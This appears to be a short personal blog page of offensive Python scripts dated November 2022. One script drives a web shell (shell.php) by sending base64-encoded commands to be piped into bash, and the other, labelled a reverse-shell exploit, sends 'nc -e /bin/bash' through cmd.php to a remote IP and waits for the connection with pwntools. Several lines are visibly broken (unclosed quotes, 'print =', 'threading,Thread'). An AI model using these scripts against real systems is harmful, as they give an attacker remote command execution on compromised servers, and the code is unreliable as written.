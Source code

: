 ```yaml
---
title: Python Scripting
published: true
---
```

<p><font color="yellow">[<font color="red">*</font>]</font><font color="lime"> sáb 26 nov 2022</font></p>
<p><center><font color="green">Shell Simulation, With Base64 Requests</font></center></p>

<b>

```python

	import requests 
	import time, signal, sys
	from base64 import b64encode
	def salida(sig,frame):
		print('\n saliendo\n')
		sys.exit(1)

	signal.signal(signal.SIGINT, salida)

	while True:
		command = input('\n shell : )
		command = command.encode('utf-8)
		command = b64encode(command).decode('utf-8')

		data = {
			'cmd' : 'echo %s | base64 -d | bash' % (command)
			
		}

		request = requests.get('http://localhost/shell.php', params=data, timeout=5).text

		print = ('\n', request)

```
<br>
<p><font color="yellow">[<font color="red">*</font>]</font><font color="lime"> dom 27 nov 2022</font></p>
<br>

<p><center><font color="green">Exploit python3 reverseShell</font></center></p>

```python

#!/usr/bin/python3

import requests
import signal
import threading
import sys
from pwn import *

def salida(sig, frame):
	print('\n\n[!] Saliendo .. \n')
	sys.exit(1)

signal.signal(signal.SIGINT, salida)
if __name__ == '__main__' : 

	def exploit():
		url = 'http://localhost/cmd.php'
		data = {
			'cmd' : 'nc -e /bin/bash 192.168.0.5 443'
		}
		requests.get(url, params=data)
	
	try:
		threading,Thread(target=exploit).start()
	except Exception as e:
		print()
		
	port= 443	
	shell = listen(port).wait_for_connection()
	shell.interactive()


```
